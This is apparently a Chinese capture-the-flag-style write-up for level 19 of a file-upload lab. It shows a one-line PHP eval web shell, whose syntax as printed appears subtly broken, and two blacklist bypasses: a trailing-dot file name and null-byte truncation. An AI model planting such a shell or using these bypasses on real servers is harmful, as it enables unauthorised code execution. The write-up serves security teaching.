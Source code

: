 ## 解题wp(By:独立团孙德胜Alan)
本pass主要考察代码审计能力

## 1.打开第十九关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)

发现强制性改成了upload-19.jpg

## 3.分析代码

![](./img/3.png)

黑名单策略，文件名用户可控，取文件名通过$_POST来获取。

名单策略，文件名用户可控，文件命名shell.php.绕过

上传shell.php文件，保存名称改为upload-19.php.绕过黑名单

## 4.修改upload-19.php.即可绕过，也可以通过截断方式绕过

特别注意，如果使用upload-19.php.绕过，需要修改PHP环境为5.2.17

![](.\img\5.png)

或者保存名自动变为upload-19.jpg，改为upload-19.php(0x00).jpg,可以用move_uploaded_file函数的00截断漏洞绕过。

